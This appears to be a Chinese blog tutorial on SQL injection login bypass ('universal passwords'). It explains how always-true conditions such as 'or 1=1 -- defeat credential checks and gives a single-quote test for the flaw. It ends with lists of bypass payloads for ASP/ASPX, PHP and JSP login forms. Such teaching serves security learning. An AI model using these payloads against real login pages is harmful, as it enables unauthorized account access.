```yaml
---
layout: post
tags: SQL注入 渗透测试
title: "SQL注入（二）"
category: SQL注入
---
```


## OR漏洞简述

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

## 漏洞原理

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。

例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为

{% highlight php %}
SELECT * FROM admin WHERE Name='admin' and passWord='123'
{% endhighlight %}


而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为

{% highlight php %}
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
{% endhighlight %}

此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。

原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

## 判断方法

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

## 不同类型程序的万能密码

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

### ASP ASPX万能密码

>* "or "a"="a
>* ')or('a'='a
>* or 1=1--
>* 'or 1=1--
>* a'or' 1=1--
>* "or 1=1--
>* 'or'a'='a
>* "or"="a'='a
>* 'or''='
>* 'or'='or'
>* 1 or '1'='1'=1
>* 1 or '1'='1' or 1=1
>* 'OR 1=1%00
>* "or 1=1%00
>* 'xor
>* 用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1
>* ..admin' or 'a'='a 密码随便

### PHP万能密码

>* 'or 1=1/*
>* User: something
>* Pass: ' or '1'='1

### JSP 万能密码

>* 1'or'1'='1
>* admin' or 1=1/*